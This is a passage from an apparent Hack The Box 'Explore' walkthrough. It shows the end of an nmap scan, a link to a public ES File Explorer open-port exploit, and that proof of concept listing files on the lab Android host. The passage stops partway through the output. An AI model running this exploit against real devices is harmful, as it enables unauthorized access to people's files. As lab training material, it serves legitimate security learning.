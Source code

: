 ```bash

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 27 09:33:02 2021 -- 1 IP address (1 host up) scanned in 1175.17 seconds
```


# [Exploit](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

![](https://i.imgur.com/KImuKN5.png)


### we can dump all files using the exloit


```bash
╭─root@kali ~/Desktop/htb/Explore/ESFileExplorerOpenPortVuln ‹master*›
╰─# python poc.py --cmd listFiles --ip $IP                                                                                                                         130 ↵
[*] Executing command: listFiles on 10.10.10.247
[*] Server responded with: 200
[
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", },
{"name":"vndservice_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", },
{"name":"vendor_service_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_seapp_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_property_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", },
{"name":"vendor_hwservice_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_file_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", },
{"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"ueventd.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"5.00 KB (5,122 Bytes)", },
{"name":"ueventd.android_x86_64.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"464.00 Bytes (464 Bytes)", },
{"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"sys", "time":"6/26/21 11:54:12 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"storage", "time":"6/26/21 11:54:20 PM", "type":"folder", "size":"80.00 Bytes (80 Bytes)", },
{"name":"sepolicy", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"357.18 KB (365,756 Bytes)", },
{"name":"sdcard", "time":"4/21/21 02:12:29 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"sbin", "time":"6/26/21 11:54:12 PM", "type":"folder", "size":"140.00 Bytes (140 Bytes)", },
{"name":"product", "time":"3/24/20 11:39:17 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"proc", "time":"6/26/21 11:54:11 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"plat_service_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"13.73 KB (14,057 Bytes)", },
{"name":"plat_seapp_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"1.28 KB (1,315 Bytes)", },
{"name":"plat_property_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"6.53 KB (6,687 Bytes)", },
{"name":"plat_hwservice_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"7.04 KB (7,212 Bytes)", },
{"name":"plat_file_contexts", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"23.30 KB (23,863 Bytes)", },
```